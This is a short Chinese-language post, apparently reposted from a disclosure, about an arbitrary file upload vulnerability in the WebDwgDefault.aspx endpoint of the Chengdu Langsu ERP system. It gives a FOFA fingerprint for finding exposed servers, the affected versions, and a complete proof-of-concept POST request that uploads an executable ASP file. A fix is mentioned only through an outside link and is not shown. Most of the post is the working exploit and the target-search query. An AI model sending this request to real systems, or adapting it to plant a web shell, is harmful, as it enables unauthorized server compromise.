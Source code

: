 #  成都朗速ERP系统WebDwgDefault.aspx任意文件上传漏洞   
清晨  摸鱼划水   2025-05-29 02:49  
  
FOFA  
```
body="/Resource/Scripts/Yw/Yw_Bootstrap.js"
```  
  
影响版本  
```
Web_v8及以下版本（其他版本需进一步验证）
```  
  
POC  
```
# 文件上传位置：/test.asp
POST /WebDwgDefault.aspx?IsSave=true&FileName=test.asp HTTP/1.1
Host: ip:port
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----123
Content-Length: 331

------123
Content-Disposition: form-data; name="file"; filename="aaaaaaaaa.txt"

<% 
Response.Write("vmvtjelciqfadnyakpjmdduxscigdaee")
%>
------123--
```  
  
漏洞来源：  
  
[成都朗速ERP系统高危漏洞曝光！任意文件上传（附修复方案）](https://mp.weixin.qq.com/s?__biz=Mzg5OTYxMjk0Mw==&mid=2247490564&idx=1&sn=b21020d985bae3bd807b1e3a8eb8d14a&scene=21#wechat_redirect)  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic81tULhQZicpM6a34ibBWF2PIvjE14tRodiaiaUTUsbPPDtibYUn3R0bqZA24jSyict3gyHNMTRvIYOauTIQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
